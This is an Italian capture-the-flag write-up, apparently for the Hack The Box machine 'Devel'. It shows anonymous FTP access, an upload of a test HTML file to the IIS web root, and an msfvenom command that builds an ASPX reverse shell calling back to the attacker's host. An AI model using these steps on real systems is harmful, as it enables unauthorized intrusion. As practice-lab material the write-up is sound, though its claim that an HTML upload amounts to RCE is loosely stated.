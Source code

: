 Abbiamo la porta 21 Ftp con login anonymous, porta 80 sembra un server IIS e tutto lascia pensare che sia un sistema Windows

# ENUMERATION

Iniziamo ad enumerare il servizio [[Port 21 FTP|FTP]]
Dallo scan di nmap si evidenzia che sul servizio ftp è abilitato il login in anonymous
proviamo a sfruttarlo per ottenere un accesso iniziale

```bash
┌──(root㉿kali)-[/home/kali]
└─# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> dir
229 Entering Extended Passive Mode (|||49217|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
05-05-23  06:36PM                 2936 kiwi_passwords.yar
05-05-23  06:36PM                 2927 mimicom.idl
05-05-23  06:36PM                 5081 README.md
05-05-23  06:25PM                 2926 reverse.aspx
05-05-23  04:08PM                16393 shell.aspx
03-17-17  05:37PM               184946 welcome.png
05-05-23  06:45PM               430638 winPEAS.bat
226 Transfer complete.
ftp> 
```

Siamo dentro,abbiamo la conferma che si tratta si un sistema IIS in quanto vediamo dei file .aspx 
Proviamo a vedere se riusciamo a caricare un file sul server

Creiamo un semplice file test.html

```htlm
<html><body>hello</body></html>
```

e lo carichiamo con il comando PUT, visitiamo la pagina http://10.10.10.5/test.html e siamo in grado di vedere il file quindi abbiamo un RCE.

# GAINING A FOOTHOLD

Proviamo a creare e  caricare una revshell.

```bash
┌──(root㉿kali)-[/home/kali/htb/devel]
└─# msfvenom -p windows/shell_reverse_tcp -f aspx LHOST=10.10.14.27 LPORT=4444 -o rev_shell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2722 bytes
Saved as: rev_shell.aspx
```
